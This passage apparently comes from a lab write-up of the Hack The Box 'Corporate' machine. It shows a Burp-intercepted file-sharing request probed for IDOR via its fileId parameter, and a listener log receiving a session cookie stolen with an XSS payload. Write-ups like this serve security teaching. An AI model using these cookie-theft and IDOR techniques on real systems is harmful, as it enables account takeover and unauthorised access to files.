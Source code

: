 Calendar Page
- Minimal or no interaction

Holidays Page
- Minimal or no interaction

Payroll Page
- Minimal or no interaction

### IDOR
I clicked on the share button, and filled in the user's own email.
![](Pasted%20image%2020251009090702.png)

The page returned an error.  The user was not allowed to share files to themselves.
![](Pasted%20image%2020251009091006.png)

I tried sharing it again, and intercepted the request in Burp Suite.
```http
POST /sharing HTTP/1.1
Host: people.corporate.htb
Content-Length: 45
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://people.corporate.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://people.corporate.htb/sharing
Accept-Encoding: gzip, deflate, br
Cookie: CorporateSSO=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6NTA3NywibmFtZSI6IkNlY2VsaWEiLCJzdXJuYW1lIjoiV2VzdCIsImVtYWlsIjoiQ2VjZWxpYS5XZXN0QGNvcnBvcmF0ZS5odGIiLCJyb2xlcyI6WyJzYWxlcyJdLCJyZXF1aXJlQ3VycmVudFBhc3N3b3JkIjp0cnVlLCJpYXQiOjE3NTk5Njc0MTEsImV4cCI6MTc2MDA1MzgxMX0.KKmXmFpKL9sWQxNvJuLlhU-oEoze8Ron2glYzl8go-M; session=eyJmbGFzaGVzIjp7ImluZm8iOltdLCJlcnJvciI6W10sInN1Y2Nlc3MiOltdfX0=; session.sig=yuIlkeaDgvo0ZceAneGjWoR3SnM
Connection: keep-alive

fileId=237&email=cecelia.west%40corporate.htb
```

I noticed `fileId` was specified in the request, a common place to test for IDOR. I tried to share files that did not belong to the user, but I couldn't test it due to self-sharing was restricted. Therefore, I needed a second account.

I went back to the `support` page, delivered the same XSS payload, and got the session cookie for another user.
```
❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.229.168 - - [09/Oct/2025 09:18:21] code 404, message File not found
10.129.229.168 - - [09/Oct/2025 09:18:21] "GET /test?c=CorporateSSO=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6NTA3MiwibmFtZSI6IkNhbmRpZG8iLCJzdXJuYW1lIjoiSGFja2V0dCIsImVtYWlsIjoiQ2FuZGlkby5IYWNrZXR0QGNvcnBvcmF0ZS5odGIiLCJyb2xlcyI6WyJzYWxlcyJdLCJyZXF1aXJlQ3VycmVudFBhc3N3b3JkIjp0cnVlLCJpYXQiOjE3NTk5NzI3OTEsImV4cCI6MTc2MDA1OTE5MX0.FHh6IxjyCkGy75cubi1CndivVg-is6_h8keq-qKfLXU HTTP/1.1" 404 -
```
